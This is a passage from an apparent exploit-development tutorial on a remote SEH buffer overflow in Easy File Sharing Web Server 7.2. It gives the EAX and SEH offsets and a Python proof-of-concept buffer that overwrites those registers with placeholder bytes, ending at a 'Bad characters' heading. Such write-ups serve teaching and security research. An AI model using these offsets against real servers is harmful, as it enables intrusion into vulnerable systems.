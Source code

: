 
Awesome, we have now all infromation about offsets required for our exploit:

* `EAX` offset is *4183*
* `SEH` offset is *4059*

Let's rewrite part of the exploit and see if we can overwrite speicifc registers with specific values, consider the following, improved PoC:

{% codeblock lang:python %}
# Offsets
max_size = 5000
seh_offset = 4059
eax_offset = 4183
 
buffer = "A" * seh_offset					# padding
buffer += "BBBB"							# overwrite nSEH pointer
buffer += "CCCC"							# overwrite SEH record
buffer += "A" * (eax_offset - len(buffer))	# padding
buffer += "DDDD"							# overwrite EAX to always trigger an exception
buffer += "A" * (max_size - len(buffer))	# padding
{% endcodeblock %}

If you trigger the crash again, you should see that `EAX` is now `0x44444444` and SEH record is `0x43434343` (nSEH will be `0x42424242`, but because we are dealing with DEP, it's not of interest for us in this particular exploit).

[![offsets PNG](/images/posts/2015-11-25-easy-file-sharing-web-server-v7-dot-2-remote-seh-buffer-overflow-dep-bypass-with-rop/offsets.png)](/images/posts/2015-11-25-easy-file-sharing-web-server-v7-dot-2-remote-seh-buffer-overflow-dep-bypass-with-rop/offsets.png)


Bad characters
--------------
